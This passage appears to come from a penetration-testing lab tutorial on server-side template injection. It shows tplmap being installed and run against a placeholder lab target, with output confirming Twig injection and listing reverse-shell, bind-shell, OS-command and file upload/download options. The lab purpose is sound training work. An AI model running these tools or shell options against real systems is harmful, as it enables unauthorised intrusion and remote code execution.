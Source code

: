 -   [HackTricks - SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
    

We could have automated the template engine identification process we just executed through [tplmap](https://github.com/epinna/tplmap), as follows. If you didn't notice, the user's input is submitted via the `name` parameter and through a POST request (hence the `-d` parameter in `tplmap`).

#### tplmap.py

```shell
p3ta@htb[/htb]$ git clone https://github.com/epinna/tplmap.git
$ cd tplmap
$ pip install virtualenv
$ virtualenv -p python2 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code

[+] Rerun tplmap providing one of the following options:

    --os-shellRun shell on the target
    --os-cmdExecute shell commands
    --bind-shell PORTConnect to a shell bind to a target port
    --reverse-shell HOST PORTSend a shell back to the attacker's port
    --upload LOCAL REMOTEUpload files to the server
    --download REMOTE LOCALDownload remote files
```

